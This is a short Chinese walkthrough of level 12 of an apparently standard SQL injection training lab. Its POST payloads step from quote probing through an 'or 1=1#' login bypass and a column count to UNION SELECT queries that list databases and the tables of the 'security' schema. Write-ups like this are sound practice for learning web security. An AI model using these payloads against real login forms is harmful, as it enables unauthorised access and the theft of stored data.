

# Less-12_01
以下均为POST内容：
1. 首先进行尝试： uname=admin‘ &passwd=a&submit=Submit  此时只是显示登陆失败，没有其他的回显，将’换为”
2. uname=admin“ &passwd=a&submit=Submit  此时有回显，显示有报错信息，通过报错信息，我们知道如何进行构造：’)
3. uname=admin“) or 1=1# &passwd=a&submit=Submit  此时构造成功之后，显示登陆成功。接下来的和less-11相同。
4. uname=admin“) order by 3# &passwd=a&submit=Submit  通过order by语句得到一共有两列。
5. uname=a&passwd=a") union select database(),2  # &submit=Submit查询到当前的数据库为security，或者是使用： uname=a") union select database(),2  # &passwd=a&submit=Submit均可以查询到当前的数据库，当然也可以查询其它信息。
6. uname=a") union select 1,(select schema_name from information_schema.schemata limit 1,1)  # &passwd=a&submit=Submit可以查询到当前的第一个数据库，或者是使用命令： uname=a") union select 1,(select group_concat(schema_name) from information_schema.schemata)  # &passwd=a&submit=Submit可以得到所有的数据库。
7. uname=a") union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479)  # &passwd=a&submit=Submit可以得到security数据库中的所有的表信息